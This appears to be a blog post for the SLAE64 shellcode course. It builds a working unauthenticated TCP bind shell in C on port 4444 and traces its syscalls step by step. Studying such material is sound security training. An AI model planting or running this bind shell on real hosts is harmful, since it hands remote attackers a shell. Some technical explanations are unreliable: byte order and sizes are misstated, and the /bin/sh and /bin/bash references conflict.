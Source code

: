 ```yaml
---
title: SLAE64 Assignment 1 - TCP Bind-Shell Shellcode
date: 2020-4-06
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Bind
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)


# Bindshell Analysis
To better understand x64 shellcode, I first created a working bindshell in C.

## Bindshell.c
```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <stdlib.h>

int main(void)
{
  int ipv4Socket = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
  struct sockaddr_in ipSocketAddr = { 
    .sin_family = AF_INET, 
    .sin_port = htons(4444), 
    .sin_addr.s_addr = htonl(INADDR_ANY) 
  };
  bind(ipv4Socket, (struct sockaddr*) &ipSocketAddr, sizeof(ipSocketAddr));
  listen(ipv4Socket, 0);
  int clientSocket = accept(ipv4Socket, NULL, NULL);
  dup2(clientSocket, 0);
  dup2(clientSocket, 1);
  dup2(clientSocket, 2);
  execve("/bin/bash", NULL, NULL);
}
```
### Compile Shellcode
```bash
root# uname -orm
5.3.0-amd64 x86_64 GNU/Linux
root# gcc bindshell.c -o bindshell
```

### Test Shellcode
#### Terminal 1
```bash 
root# ./bindshell

```
#### Terminal 2
```bash
root# nc 127.0.0.1 4444
whoami
root

```

### Function Analysis

#### 1. Create a new Socket.

```c 
int socket(int domain, int type, int protocol); 
```  
+ For complete details see: `man socket`

```c
int domain = AF_INET
```
+ IPv4 Internet protocols.

```c
int type = SOCK_STREAM
```
+ Provides sequenced, reliable, two-way, connection-based byte streams (TCP).

```c
int protocol = IPPROTO_IP
```
+ The protocol to be used with the socket.
+ With only one protocol option in the address family, the value `0x0` is used.

#### 2. Create an IP Socket Address structure.
```c
struct sockaddr_in {
  sa_family_t    sin_family; /* address family: AF_INET */
  in_port_t      sin_port;   /* port in network byte order */
  struct in_addr sin_addr;   /* internet address */
};
struct in_addr {
  uint32_t       s_addr;     /* address in network byte order */
}; 
```
+ `sa_family_t sin_family  = AF_INET`   
  - From Socket, we know that we will need to use the Address Family `AF_INET`  
+ `in_port_t sin_port      = htons(4444)`  
  - TCP Port 4444  
  - The `htons()` function converts our decimal integer to 16-byte little-endian hex (aka "network byte order")  
+ `struct in_addr sin_addr = htonl(INADDR_ANY)`   
  - All interfaces.  
  - The `htonl()` function converts our decimal integer to 32-byte little-endian hex.    
+ For complete details see: `man ip.7`  

#### 3. Bind the IP Socket Address to Socket. 
```c
int bind(int sockfd, const struct sockaddr \*addr, socklen\_t addrlen);`
```
  + `sockfd = ipv4Socket`  
    - The socket file descriptor returned from `socket()` and saved as the variable `ipv4Socket`.  
  + `const struct sockaddr *addr = &ipSocketAddr`  
    - A pointer to the IP Socket Address structure `ipSocketAddr`.  
  + `socklen_t addrlen = sizeof(ipSocketAddr)`  
    - The byte length of our `ipSocketAddr` structure.  
    - `sizeof()` returns the length in bytes of the variable.  
  + For complete details see: `man bind`  

#### 4. Listen for connections to the TCP Socket at the IP Socket Address.  
```c
int listen(int sockfd, int backlog);
```  
  + `int sockfd  = ipv4Socket`  
  + `int backlog = 0`   
    - This is for handling multiple connections.   
    - We only need to handle one connection at a time, therefor we will set this value to `0`.   
  + For complete details see: `man listen`  

#### 5. Accept connections to the TCP-IP Socket and create a Client Socket.  
```c
int accept4(int sockfd, struct sockaddr *addr, socklen_t *addrlen, int flags);
```  
  + `int sockfd = ipv4Socket`  
  + `struct sockaddr *addr = NULL`  
    - This structure is filled in with the address of the peer socket.  
  + `socklen_t *addrlen = NULL`  
    - When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL.  
  + `int flags  = NULL`  
  + The function will return the new Socket File-Descriptor. Save as `clientSocket`  
  + For complete details see: `man accept`  

#### 6. Transfer Standard-Input, Standard-Output, and Standard-Error to the client socket.  
```c
int dup2(int oldfd, int newfd);
dup2(clientSocket, 0); // STDIN
dup2(clientSocket, 1); // STDOUT
dup2(clientSocket, 2); // STDERR
```   
  + For complete details see: `man dup2`  

#### 7. Spawn a `/bin/sh` shell for the client, in the connected session.  
```c
int execve(const char *pathname, char *const argv[], char *const envp[]);
execve("/bin/sh", NULL, NULL);
```  
  + `const char *pathname = "/bin/sh"`  
  + `char *const argv[] = NULL`  
  + `char *const envp[] = NULL`  
  + For complete details see: `man execve`  

### Trace System-Calls  
+ Use `strace` to see system calls as the `shellcode` executes.  
```bash 
root# strace ./bindshell
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
```  
+ We see that the `Socket File-Descriptor` for our socket.
```bash
bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 0)                            = 0
accept(3, NULL, NULL

```
+ We can see it hangs at `accept(`. To keep it moving we connect to our bindshell with `nc 127.0.0.1 4444`.  
+ I removed all of the system-calls that were irrelevant from the system trace.  

```bash
accept(3, NULL, NULL)                   = 4
dup2(4, 0)                              = 0
dup2(4, 1)                              = 1
dup2(4, 2)                              = 2
execve("/bin/bash", NULL, NULL)         = 0

```
